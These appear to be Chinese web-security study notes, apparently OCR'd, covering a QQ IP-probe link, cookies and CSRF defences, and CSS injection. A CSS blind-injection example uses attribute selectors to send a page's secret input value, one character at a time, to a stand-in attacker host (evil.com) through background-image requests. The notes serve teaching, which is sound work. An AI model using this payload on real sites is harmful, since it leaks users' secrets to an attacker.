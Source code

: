 [QQ 探针技术](https://github.com/Y5neKO/qq_xml_ip)（上一条的应用）$\quad$
[打开微信自动下载原神](https://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247485359&idx=1&sn=a3dc73eebed17bd60b89a2e1d766b442&poc_token=HL5NZ2ijIcTVAh5jv6L7Bw4qZBN-FV74W3wj8SpM) （微信头像图片的URL恶意插入了原神下载包）

Cookie & CSRF攻击：

* 先学会写一个网站
* cookie是浏览器标识用户身份的数据。

* CSRF的防御：
  * Referer检查
  * token

### CSS注入

* HTML知识

    HTML是树状的：

    ```html
    <html>
    <head>
        <title>Title</title>
        <style>
            body { background-color: lightblue; }
            h1 { color: navy; font-size: 24px; }
        </style>
    </head>
    <body>
        <h1 id="aaa">This is a tag node.</h1>
        <div name="bbb">
            <p>This is also a tag node.</p>
        </div>
    </body>
    </html>
    ```

* CSS注入

    CSS可以用来发送网络请求：比如在`<style>`中插入一些请求。

    布尔盲注：

    ```html
    <!-以下是受害者 HTML 中的敏感信息 -->
    <input name="secret" value="AAA{secret}">
    <!-以下是你注入的恶意 CSS -->
    <style>
      input[name="secret"][value^="A"]{ 
          background-image: url(http://evil.com/?start=A);
      }
    </style>
    ```

    CSS的攻击性依赖于 CSS 的功能 , 而 CSS 的功能是有限的，跟后面的Javascript相比很弱。
